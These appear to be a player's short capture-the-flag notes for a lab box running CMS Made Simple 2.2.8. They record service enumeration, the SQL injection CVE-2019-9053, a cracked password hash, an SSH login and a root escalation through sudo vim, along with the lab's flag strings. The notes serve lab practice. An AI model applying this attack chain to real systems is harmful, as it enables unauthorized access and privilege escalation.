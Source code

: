 ftp anon vsFTPd 3.0.3
http Apache httpd 2.4.18 ((Ubuntu)) http-robots.txt: 2 disallowed entries /openemr-5_0_1_3 
ssh 2222 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

dirs:
/simple

tech:
CMS Made Simple version 2.2.8
php

users:
mitch (root) NOPASSWD: /usr/bin/vim
sunbath

vulnerable to slqi CVE-2019-9053

email: admin@admin.com
pass: 0c01f4468bd75d7a84c7eb73846e8d96 MD5 or MD4
user: mitch
salt: 1dac0d92e9fa6bb2 LM or MySQL < version 4.1

cracked psw: secret

ssh -p 2222 mitch@ip psw: secret
user.txt - G00d j0b, keep up!

priv esc to root - sudo vim, ESC :!bash ENTER
root.txt - W3ll d0n3. You made it!
